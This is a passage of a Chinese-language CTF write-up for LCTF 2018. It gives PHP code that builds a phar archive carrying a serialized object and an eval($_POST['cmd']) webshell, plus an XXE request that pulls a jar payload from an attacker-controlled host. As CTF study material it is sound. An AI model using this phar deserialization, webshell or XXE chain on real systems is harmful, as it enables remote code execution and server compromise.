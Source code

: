 **payload 代码：**

    <?php 
    
    	class K0rz3n_secret_flag {
            protected $file_path;
            function __construct(){
            	$this->file_path = "phar:///var/www/file/4253b1c836a25962c1547f7e46f373f1/jar.zip/test.txt";//这是文件包含的payload
            }
    	}
    
    
    
        @unlink("phar.phar");
        $phar = new Phar("phar.phar");                   //后缀必须是 phar
        $phar->startBuffering();
        $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
        $o = new K0rz3n_secret_flag();//我们将对象在这里创建
        $phar->setMetadata($o); //将对象在这里序列化
        $phar->addFromString("test.txt", '<?php eval($_POST["cmd"])?>'); //我们文件包含的时候会触发 getshell
        $phar->stopBuffering();   
    
    ?>
    
运行这段代码以后我们就能获取到一个 phar.phar 文件，然后我们根据自己习惯改名后还要在文件末尾添加一个垃圾字节

**如图所示：**

![此处输入图片的描述][11]


### **3.判断临时文件目录**

我们先随意打包一个压缩包(假设里面是一个xxe.php)上传到自己的服务器上，然后启动我们的自定义的服务器脚本，监听服务器的 9999 端口，然后本地利用 XXE 去请求这个文件，请求的时候我们要故意写一个不存在文件，比如 1.php 

**如图所示:**

![此处输入图片的描述][12]

我们服务器已经接收到了我们 XXE 发出的请求，然后后面的报错就和上面分析的一样，这里就不在赘述


### **4.通过列目录确定我们的payload文件名**

我们将 server.py 这个服务器脚本的 sleep() 时间调的稍微长一些，比如调整为 600 s ，然后将我们的 payload 文件传上去，通过 XXE 请求这个文件，这时候临时文件生成，然后我们再通过 XXE 列目录得到临时文件名

**请求 payload：**

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "jar:http://yourvps:9999/jarn.zip!/test.txt" >]>
    <creds>
        <user>&xxe;</user>
        <pass>mypass</pass>
    </creds>


  [1]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF_show_me_the_shell_.gif
  [2]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_1.png
  [3]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%862.png
  [4]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_3.png
  [5]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_4.png
  [6]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%865.png
  [7]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%86_6.png
  [8]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018_%E8%AF%84%E8%AE%BA%E6%A1%867.png
  [9]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%868.png
  [10]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%AF%84%E8%AE%BA%E6%A1%869.png
  [11]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E5%9E%83%E5%9C%BE%E5%AD%97%E8%8A%82.png
  [12]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%8E%B7%E5%BE%97%E8%AF%B7%E6%B1%82.png
  [13]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E8%8E%B7%E5%BE%97%E4%B8%B4%E6%97%B6%E6%96%87%E4%BB%B6%E5%90%8D.png
  [14]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E6%96%87%E4%BB%B6%E6%8B%B7%E8%B4%9D.png
  [15]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.png
  [16]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20getshell.png
  [17]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20getshell2.png
  [18]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20cookie.png
  [19]: https://picture-1253331270.cos.ap-beijing.myqcloud.com/LCTF2018%20flag.png